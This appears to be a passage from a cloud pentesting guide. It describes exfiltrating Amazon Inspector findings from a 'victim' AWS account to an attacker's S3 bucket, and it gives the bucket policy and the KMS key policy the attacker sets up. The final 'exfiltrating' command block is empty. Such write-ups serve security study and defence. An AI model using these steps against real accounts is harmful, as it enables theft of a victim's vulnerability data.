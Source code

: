 1. **Create an Amazon S3 Bucket** and attach a policy to it in order to be accessible from the victim Amazon Inspector:
```json
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "allow-inspector",
			"Effect": "Allow",
			"Principal": {
				"Service": "inspector2.amazonaws.com"
			},
			"Action": [
				"s3:PutObject",
				"s3:PutObjectAcl",
				"s3:AbortMultipartUpload"
			],
			"Resource": "arn:aws:s3:::inspector-findings/*",
			"Condition": {
				"StringEquals": {
					"aws:SourceAccount": "<victim-account-id>"
				},
				"ArnLike": {
					"aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
				}
			}
		}
	]
}
```
2. **Create an Amazon KMS key** and attach a policy to it in order to be usable by the victim’s Amazon Inspector:
```json
{
    "Version": "2012-10-17",
    "Id": "key-policy",
    "Statement": [
        {
	    ...
        },
        {
            "Sid": "Allow victim Amazon Inspector to use the key",
            "Effect": "Allow",
            "Principal": {
                "Service": "inspector2.amazonaws.com"
            },
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*",
            "Condition": {
                "StringEquals": {
                    "aws:SourceAccount": "<victim-account-id>"
                }
            }
        }
    ]
}
```
3. Execute the command to **create the findings report** exfiltrating it:
```bash
```